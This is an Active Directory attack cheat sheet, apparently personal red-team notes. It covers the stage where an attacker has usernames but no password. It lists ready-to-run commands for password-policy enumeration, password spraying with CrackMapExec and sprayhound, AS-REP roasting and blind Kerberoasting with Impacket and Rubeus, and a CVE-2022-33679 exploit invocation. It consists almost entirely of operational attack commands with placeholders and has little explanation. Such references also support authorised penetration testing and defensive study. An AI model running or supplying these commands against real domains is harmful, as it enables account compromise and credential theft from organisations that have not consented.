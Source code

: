 ### Username - no password  
  
🔥Password spray  
Get password policy (need creds, but you should get the policy before starting a spray)  
	cme <IP> -u 'user' -p 'password' --pass-pol  
	enum4linx -u 'username' -p 'password' -P <IP>  
	Get-ADDefaultDomainPasswordPolicy  
	FGPP  
		 Get-ADFineGrainedPasswordPolicy -filter *  
		Get-ADUserResultantPasswordPolicy -Identity <user>  
		ldapsearch-ad.py --server '<dc>' -d <domain> -u <user> -p <pass> --type pass-pols  
cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # test user=password  
cme smb <dc-ip> -u user.txt -p password.txt # multiple test (carrefull of lock policy)  
sprayhound -U <users.txt> -d <domain> -dc <dcip>  
  
	  
	  
ASREPRoast  
Get ASREPRoastable users (need creds)  
	Get-DomainUser -PreauthNotRequired -Properties SamAccountName  
	MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p  
Get hash  
	python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>  
	Rubeus.exe asreproast /format:hashcat  
Blind Kerberoasting  
	Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>  
	GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/  
	Hash found (TGS)  
CVE-2022-33679  
	python3 CVE-2022-33679.py <domain>/<user> <target>  
  
